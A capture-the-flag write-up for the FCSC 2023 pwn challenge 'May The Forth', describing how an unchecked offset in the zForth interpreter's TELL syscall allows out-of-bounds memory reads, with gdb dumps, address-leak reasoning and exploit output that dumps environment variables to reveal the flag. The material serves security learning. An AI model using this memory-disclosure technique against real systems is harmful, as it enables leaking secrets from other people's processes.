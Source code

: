 # FCSC2023 - Pwn Write-up : May The Forth


![](./data/fcsc.png)

## 👀 - Overview

```
Un utilisateur de zForth refuse de mettre à jour son installation, car selon lui "cela ne sert à rien". 
Saurez-vous le détromper en trouvant le flag dans l'environnement de l'interpréteur (variable FLAG) ?
```

This was a really special challenge, to make it shorter, we have an interpreter of forth, [zforth](https://github.com/zevv/zForth) **without the last commit**. This commit is called: `Fixed potental out of bound memory access in example linux PEEK syscall. Thanks cde!`, cde being the creator of the challenge, we know for sure this is what we are supposed to exploit.

There is also the diff with the commit in the [given source file](./src/zforth-src/tell.patch):
```c
@@ -129,7 +129,11 @@ zf_input_state zf_host_sys(zf_syscall_id id, const char *input)
 
 		case ZF_SYSCALL_TELL: {
 			zf_cell len = zf_pop();
-			void *buf = (uint8_t *)zf_dump(NULL) + (int)zf_pop();
+			zf_cell addr = zf_pop();
+			if(addr >= ZF_DICT_SIZE - len) {
+				zf_abort(ZF_ABORT_OUTSIDE_MEM);
+			}
+			void *buf = (uint8_t *)zf_dump(NULL) + (int)addr;
 			(void)fwrite(buf, 1, len, stdout);
 			fflush(stdout); }
 			break;
```

## 🔍 - Analysis


To start the challenge, we must launch the `zforth` binary with the `core.zf` file as an argument so it loads everything. Once it's done, our interpreter is ready to work.

I'm not gonna explain a lot about forth, but I watched a few tutorials to have a better understanding on how the language works.

The most important is that forth is a **stack-based language**, which means that when I do:
```
> 1337
> 56
> .
```

`. is the equivalent of 'print' in forth`

In pseudo-code, it will look like:
```
> push(1337)
> push(56)
> print(pop())
```
So, it will print 56 to the screen.


The vulnerable code is the one handling the `tell` operation, which works like this:

```
<offset> <size> tell
0 4 tell
```
-> print 4 bytes at `dict`+0. Now I'll be honest, I still don't understand what the dict is, it seems to be something stocking words (equivalent of functions in forth) but I'm really not sure.

As we can see in `tell.patch`, there is no check that `offset` is in range of the dict. Sooo we can read the content of **any memory address** as long as we know the **offset between the target address and the dict address**.

## 🧙🏼‍♂️ - Exploiting

> Note: this time I tested my script remotely at each steps :-)

Looking with gdb where the dict was, I saw that it was just after the got.plt section, so I retrieved the version of the libc and calculated the base address, but it was not really helpfull since the flag is stored in the stack.

At some point I did a little script that dumped every single byte I could read before the program crashes (if we try to read somewhere memory isnt mapped, it will crash) but I did not find anything interesting at first.

Since I was having a hard time finding something, I wrote a script that tried to bruteforce the offset between the dict and the stack. I didn't believed in it so I let it run while I was trying to find something, and looking back I would never have found something since there's like millions of possibilities...

![](./data/meme_bf.jpg)

Looking at the dict position in gdb, we can see that **just after it**, there is a `jmp_buf` struct:
```
0x5655c170 <dict+4048>:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c180 <dict+4064>:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c190 <dict+4080>:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c1a0 <input_state>:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c1b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c1c0 <jmpbuf>:	0x5655b000	0xffffd310	0xf7ffcb80	0xffffc148
0x5655c1d0 <jmpbuf+16>:	0x4e24eca6	0x1ab32ff5	0x00000000	0x00000000
0x5655c1e0 <jmpbuf+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c1f0 <jmpbuf+48>:	0x00000000	0x00000000	0x00000000	0x00000000
```

Leaking it remotely, this time there was also the **stack leaks** ! Even better we also have the **PIE leak**: `0x5655b000` !

Looking in ghidra, I found the **offset between** this leak and the dict which is `+416`, so now that we have the address of the dict and a leak of the stack, we can simply do `stack_leak - dict` to get the offset between the stack leak and the dict !

The last step was to convert this into a **negative offset**, because for some reason when I tried to simply add the offset, it got transformed into `0x80000000`, I still don't really know why.

Once we have the negative offset, we just have to read some bytes from this until we find the **environement variables**. I did not scripted this part and did it by hand because I was too hyped :-)

```
$ python3 exploit.py
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2105: Done

----------LIBC LEAKING----------
printf      @ 0xf3886020
---------------------------------

----------ASLR LEAKING----------
stack leak  @ 0xffbd7270
---------------------------------

----------PIE  LEAKING----------
binary leak @ 0x61d01000
---------------------------------

<!> START  ADDR = 0x61d011a0
<!> STACK  ADDR = 0xffbd7270
Start offset:  1645387567
[*] Switching to interactive mode
$ -1645387567 7300 tell 

<snip>
di=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
\x00LAG=FCSC{c7d99be764cf1fbdc3447eb935b51285}\x00OME=/home/ctf
```

And it's flagged !


## ✅ - Conclusion

That was a really fun challenge, even if the solution looks straight forward, the path to go there was challenging to me and made me learn some new stuff.

Thanks again to the creators, I really enjoyed this challenge !